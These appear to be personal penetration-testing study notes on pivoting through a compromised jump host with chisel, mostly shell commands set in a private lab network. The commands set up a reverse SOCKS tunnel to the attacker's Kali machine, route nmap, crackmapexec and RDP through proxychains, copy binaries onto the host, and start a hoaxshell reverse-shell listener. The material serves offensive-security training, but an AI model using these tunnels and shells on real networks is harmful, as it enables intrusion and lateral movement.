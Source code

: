 ### 24082023Thu

[A Powerful Pivoting Technique That the OSCP Doesn&#39;t Teach You - YouTube](https://youtu.be/dIqoULXmhXg)

https://www.youtube.com/@elevatecyber5031

https://www.kali.org/tools/chisel/

https://github.com/jpillora/chisel

```
ln -s /usr/local/bin/chisel chisel
```

```
chisel -h
```

```
nmap -Pn -n -p 88 192.168.237.103
```

 (Domain Controller IP)
 ![[Pasted image 20230824225909.png]]
 
```
88/tcp filtered kerberos-sec
```

```
chisel server -p 8000 --reverse
```

```
chisel client 192.168.237.102:8000 R:socks
```

```
sudo vim /etc/proxychains4.conf
```

![[Pasted image 20230824231727.png]]
![[Pasted image 20230824231843.png]]
#socks4

```
socks 127.0.0.1 1080
```

```
proxychains nmap -sT -p 88 -Pn -n 192.168.237.103
```

```
proxychains crackmapexec smb 192.168.237.103 -u 'guest' -p ''
```

```
https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64
```

```
scp nmap username@ip:/tmp
```

```
scp chisel username@ip:/tmp
```

**In the attacker (kali) machine**

```
chisel server --socks5 --reverse
```

```
chisel server --socks5 --reverse
2023/09/15 22:05:53 server: Reverse tunnelling enabled
2023/09/15 22:05:53 server: Fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70=
2023/09/15 22:05:53 server: Listening on http://0.0.0.0:8080
```

**In the compromised pivot (jump host) machine**

```
./chisel client --fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70= [attacker's machine IP]:8080 R:8000:[other's machine IP]:80
```

```
./chisel client --fingerprint wq+g4n5Ac8sFp9t9GwOLu7U6arED88bF2jfhH4IxV70= kaliIP:8080 0.0.0.0:9999:kaliIP:9999
```

**In the kali's web browser**

http://localhost:8000

```
proxychains curl http://other's machine IP
```

```
proxychains xfreerdp /v:ip /u:Administrator
```

```
python hoaxshell.py -s other's machine IP -p 9999
```

```
powershell -e
```

```
plink.exe -ssh -L <local_port>:<destination_host>:<destination_port> <username>@<ssh_server>
```

```
plink.exe -ssh -L 8080:localhost:80 user@ssh_server
```

